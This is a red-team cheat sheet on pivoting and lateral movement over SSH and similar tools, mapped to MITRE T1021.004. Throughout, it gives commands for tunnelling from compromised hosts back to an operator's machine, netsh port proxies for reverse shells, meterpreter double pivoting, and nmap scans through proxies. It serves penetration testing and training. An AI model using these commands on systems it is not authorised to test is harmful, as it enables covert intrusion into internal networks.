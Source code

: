 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SSH (port 22) ([`Remote Services - SSH` TTP](TTP/T1021_Remote_Services/004_SSH/T1021.004.md))
## Tags

        #@ssh #@lateral #@movement #@lateralmovement #@enumeration #@enumerate

## References

<details><summary>References</summary><p>

* [https://hideandsec.sh/books/cheatsheets-82c/page/pivoting](https://hideandsec.sh/books/cheatsheets-82c/page/pivoting)

</p></details>


## Movement
### From a Linux Machine

* <details><summary>Local Port Forwarding</summary><p>
    * All the request to `127.0.0.1:32000`will be transfer to the machine `10.42.42.80:80` through `192.168.2.105`

            ssh user@ssh_server -L [bind_address:]local_port:destination_host:destination_hostport
            ssh noraj@192.168.2.105 -L 127.0.0.1:32000:10.42.42.2:80 -N

* <details><summary>Reverse Remote Port Forwarding</summary><p>

        ssh user@ssh_server -R [bind_address:]remote_port:destination_host:destination_hostport
    - Get a shell on the pivot machine
    - Launch a ssh server on our machine
    - Create a dedicated account without shell on our machine to limitate the **hackback**
    - Launch the reverse from the pivot machine
    - Request `10.42.42.2:80`
    * On our machine

            sudo systemctl start sshd
            sudo useradd sshpivot --no-create-home --shell /bin/false
            sudo passwd sshpivot
    * On the pivot machine

            ssh sshpivot@192.168.2.149 -R 127.0.0.1:14000:10.42.42.2:80 -N
* <details><summary>Dynamic Port Forwarding</summary><p>

        ssh user@ssh_server -D [bind_address:]local_port
        ssh noraj@192.168.2.105 -D 127.0.0.1:12000 -N
    * We can request any machines through the proxy

            curl --head http://10.42.42.2 --proxy socks5://127.0.0.1:12000
* <details><summary>Reverse remote port forwarding + proxy SOCKS</summary><p>
    * Proxychains is really good for client side, but not for the server part. Prefer **3proxy**, particularly the standalone binary **socks**.

            chmod u+x socks
            ./socks '-?'
            ./socks -p10080 -tstop -d
            ssh sshpivot@192.168.2.149 -R 127.0.0.1:14000:127.0.0.1:10080 -N
    * From our machine :

            curl --head http://10.42.42.2 --proxy socks5://127.0.0.1:14000
* <details><summary>VPN over SSH</summary><p>
    - With **openssh**
    - Choose a **not present** network 
      - We create the network 10.43.43.0/30
      - Our actual network is 192.168.2.0/24
      - Target network : 10.42.42.0/24
    - Authorized the **tun device forwarding** : `/etc/ssh/sshd_config`
    - Create a tun interface on the pivot machine and our machine (root is needed)

    * Solution 1 (not recommended)
        * Let openssh create the interfaces : root is needed on both machines, risk of **hackback**
        * On our machine

                sudo ssh root@192.168.2.105 -w any:any
    * Solution 2 (recommended): Manual creation and destruction
        * On the **pivot** machine:

                sudo ip tuntap add dev tun0 mode tun
                sudo ip addr add 10.43.43.1/30 peer 10.43.43.2 dev tun0
                sudo ip link set tun0 up
                sudo sysctl net.ipv4.conf.default.forwarding=1
        * On **our** machine:

                sudo ip tuntap add dev tun0 mode tun
                sudo ip addr add 10.43.43.2/30 peer 10.43.43.1 dev tun0
                sudo ip link set tun0 up
                ssh noraj@192.168.2.105 -w 0:0
            * `-w` specifies the interface numbers

        * Setup NAT on the pivot
            * Option 1

                    sudo iptables -t nat -A POSTROUTING -s 10.43.43.2 -o eth1 -j MASQUERADE
            * Option 2

                    sudo iptables -t nat -A POSTROUTING -s 10.43.43.2 -d 10.42.42.0/24 -j MASQUERADE
        * ARP proxy instead of NAT

                sudo sysctl net.ipv4.conf.eth0.proxy_arp=1
                sudo ip neigh add proxy 10.43.43.2 dev eth0
        * Setup the route
            * On **our** machine

                    sudo ip route add 10.42.42.0/24 via 10.43.43.1
* <details><summary>sshuttle - Transparent proxy over SSH</summary><p>
    * Forward everything to the 10.42.42.0/24 network

            sshuttle -r noraj@192.168.2.105 10.42.42.0/24
        * With the SSH key

                sudo python3 -m sshuttle -v -r 10.10.110.100 10.42.42.0/24 --ssh-cmd 'ssh -i id_rsa'
    * Let sshuttle auto discovered the networks (`-x` to exclude a network):

            sshuttle -vNr noraj@192.168.2.105 -x 192.168.1.0/24
* Netsh
    * Useful in Windows / AD environement. We can contact a machine, and this one can contact another machine, but we can't directly contact the second machine from ours.
    * These commands have to be done on the "central" pivot machine :
        * <details><summary>Forward the port 4545 for the reverse shell, and the 80 for the http server for example</summary><p>

                netsh interface portproxy add v4tov4 listenport=4545 connectaddress=192.168.50.44 connectport=4545
                netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.50.44 connectport=80
        * <details><summary>Correctly open the port on the machine</summary><p>

                netsh advfirewall firewall add rule name="PortForwarding 80" dir=in action=allow protocol=TCP localport=80
                netsh advfirewall firewall add rule name="PortForwarding 80" dir=out action=allow protocol=TCP localport=80
                netsh advfirewall firewall add rule name="PortForwarding 4545" dir=in action=allow protocol=TCP localport=4545
                netsh advfirewall firewall add rule name="PortForwarding 4545" dir=out action=allow protocol=TCP localport=4545
* Metasploit
    * <details><summary>Autoroute, proxy socks and local port forwarding</summary><p>

            msf5 exploit(multi/handler) > back
            msf5 > use post/multi/manage/autoroute
            msf5 post(multi/manage/autoroute) > set SESSION 1
            SESSION => 1
            msf5 post(multi/manage/autoroute) > set CMD add
            CMD => add
            msf5 post(multi/manage/autoroute) > set SUBNET 10.42.42.0
            SUBNET => 10.42.42.0
            msf5 post(multi/manage/autoroute) > set NETMASK /24
            NETMASK => /24
            msf5 post(multi/manage/autoroute) > run
        * There is a module for Windows to discover some networks with ARP : `post/windows/gather/arp_scanner`
        * Then:

                use auxiliary/server/socks4a
            * Prefer socks4 instead of socks5 to limit conflicts with other tools
        * To use without proxychains : `curl --head http://10.42.42.2 --proxy socks4a://127.0.0.1:1081`
    * <details><summary>Double pivoting</summary><p>
        * We already have a pivot on a machine, and we gain access to another machine on the internal network. We want to use it in order to pivot to another network:
        - We create a meterpreter payload with the first pivot machine IP as a **LHOST** value
        - We set a handler on the same IP
        - With the meterpreter session on the second machine, we can add an autoroute to the next network
        - Open a new server SOCKS proxy with a **new SRVPORT**

* **Ncat - Reverse remote port forwarding**
    * <details><summary>Use Ncat with the **broker** mode to accept connections from multiple clients</summary><p>

            ncat -lv --broker --max-conns 2
        * On the **pivot** machine :

            ncat -v 192.168.2.149 31337 -c 'ncat -v 10.42.42.2 80'
* Chisel
    * <details><summary>Local port forwarding</summary><p>
        * Pivot machine

                chisel server -p 8080 --host 192.168.2.105 -v
        * Our machine

                chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:10.42.42.2:80
    * <details><summary>Local port forwarding + SOCKS proxy</summary><p>
        * Pivot machine

                chisel server -p 8080 --host 192.168.2.105 --socks5 -v
        * Our machine

                chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:socks
        * Use

                curl –head http://10.42.42.2 –proxy socks5://127.0.0.1:33333
    * <details><summary>Reverse remote port forwarding</summary><p>
        * Our machine

                chisel server -p 8888 --host 192.168.2.149 --reverse -v
        * Pivot machine

                chisel client -v http://192.168.2.149:8888 R:127.0.0.1:44444:10.42.42.2:80
    * <details><summary>Reverse remote port forwarding + proxy SOCKS (auto local port forwarding internal socks proxy)</summary><p>
        * On **our** machine:

            chisel server -p 8888 --host 192.168.2.149 --reverse -v
        * Chisel can't be used as a SOCKS proxy server directly :
            - Run a SOCKS server
            - Connect us with a second client
            - Make a local port forwarding to the local Chisel server in order to share the SOCKS proxy server to the first client
        * On the **pivot** machine :

                chisel client -v http://192.168.2.149:8888 R:127.0.0.1:44444:127.0.0.1:55555
                chisel server -p 62000 --host 127.0.0.1 --socks5 -v
                chisel client -v http://127.0.0.1:62000 127.0.0.1:55555:socks
        *  To test

                curl --head http://10.42.42.2 --proxy socks5://127.0.0.1:44444
* PivotSuite - multi port forwarding + proxy SOCKS
    * <details><summary>"Remote" local port forwarding</summary><p>
        Forward directly from the pivot machine : no need of a client
            * Option 1

                    pivotsuite -S -F --server-option=PF --forward-ip=10.42.42.2 --forward-port=80 --server-ip=192.168.2.105 --server-port=8080
            * Option 2

                    pivotsuite -S -F --server-option=PF --remote-ip=10.42.42.2 --remote-port=80 --server-ip=192.168.2.105 --server-port=8080
    * <details><summary>“Remote” dynamic port forwarding</summary><p>

            pivotsuite -S -F --server-option=SP --server-ip=192.168.2.105 --server-port=8080
        * Client side

                curl --head http://10.42.42.2 --proxy socks5://192.168.2.105:8080
    * <details><summary>Reverse dynamic port forwarding (not recommended)</summary><p>
        On our machine:

            pivotsuite -S -W --server-ip 192.168.2.149 --server-port 8090
        * Our server is listenning on all the interfaces, all the ports : everyone can connect to us
        * On the pivot machine :

            pivotsuite -C -O SP --server-ip 192.168.2.149 --server-port 8090
        * To test
            * Option 1

                    curl --head http://10.42.42.2 --proxy socks5://192.168.2.149:7684
            * Option 2

                    curl --head http://10.42.42.2 --proxy socks5://127.0.0.1:7684
* Pivoting behind a NAT
    * The pivot machine IP is *NATed* and the machine is, for example, behind a firewall : all the IN ports are closed, but all the OUT ports are open.
    * We will use the pivot machine as a client, and our machine as a server.
    * <details><summary>Rpivot - Reverse proxy -<br />[https://github.com/klsecservices/rpivot](https://github.com/klsecservices/rpivot)</summary><p>
        * Server on our machine, client on the pivot :

                python2 server.py --server-port 9999 --server-ip 192.168.2.149 --proxy-ip 127.0.0.1 --proxy-port 21000
                python2 client.py --server-ip 192.168.2.149 --server-port 9999
        * And we use socks4

                curl --head http://10.42.42.2 --proxy socks4://127.0.0.1:21000
        * In order to simplify the deployment on the pivot machine, we can use a zip archive :
            * Option 1

                    zip rpivot.zip -r *.py ./ntlm_auth/
            * Option 2

                    7z a -r rpivot.zip *.py ./ntlm_auth/
        * Usage

                python2 rpivot.zip server --server-port 9999 --server-ip 192.168.2.149 --proxy-ip 127.0.0.1 --proxy-port 21000
                python2 rpivot.zip client --server-ip 192.168.2.149 --server-port 9999
* Common tools with SOCKS
    * <details><summary>Proxychains</summary><p>
        * Modify `/etc/proxychains.conf` and :

                proxychains curl --head http://10.42.42.2
    * <details><summary>nmap through proxychains</summary><p>
        * To scan 65535 ports at a normal speed :

                seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n
        * To scan multiple machines :

                seq 1 254 | xargs -P 50 -I cpt proxychains -q nmap --top-ports 20 -sT -T4 10.42.42.cpt -oG 10.42.42.0 --open --append-output 10.42.42.cpt -Pn -n

